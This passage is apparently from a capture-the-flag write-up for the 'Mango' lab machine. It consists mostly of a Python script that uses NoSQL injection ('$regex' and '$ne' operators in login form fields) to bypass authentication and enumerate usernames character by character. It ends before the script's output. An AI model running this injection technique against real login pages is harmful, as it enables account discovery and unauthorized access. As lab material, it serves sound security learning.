 - **!!! NOTE**: This only find usernames by first match. This means the script will find `adam` before finding `admin` and find `admin1` instead of finding `admin`.

```python
import string
import requests

TARGET = 'http://staging-order.mango.htb/index.php'
POOL = [c for c in string.printable if c not in string.whitespace]
REGEX_SPECIAL = ['.', '+', '*', '?', '^', '$', '(', ')', '[', ']', '{', '}', '|', '\\']

for start in (string.ascii_lowercase + string.ascii_uppercase + string.digits):
  username = [start]
  print(f'\r[.] Trying usernames starting with {start} ...', end='')
  while True:
    done = False
    for c in POOL:
      s = requests.session()
      r = s.get(TARGET)
      # handle regex special characters
      if c in REGEX_SPECIAL:
        c = '\\' + c
      regex = '^' + ''.join(username) + c + '.*$'
      if len(username) > 1:
        print(f'\r[!] Trying {"".join(username)}{c} ({regex}) ...', end='')
      r = s.post(TARGET, data={
        'username[$regex]': regex,
        'password[$ne]': 'bubba',
        'login': 'login',
      })
      if 'Log in for ordering Sweet & Juicy Mango.' not in r.text:
        # handle regex special characters
        if c in REGEX_SPECIAL:
          username.append('\\' + c)
        else:
          username.append(c)
        print(f'\n[*] username: {"".join(username)}')
        done = True
        break
    if not done:
      break
  if len(username) > 1:
    print(f'\n[+] FOUND username {"".join(username)}')
```

Running this script produces the following:
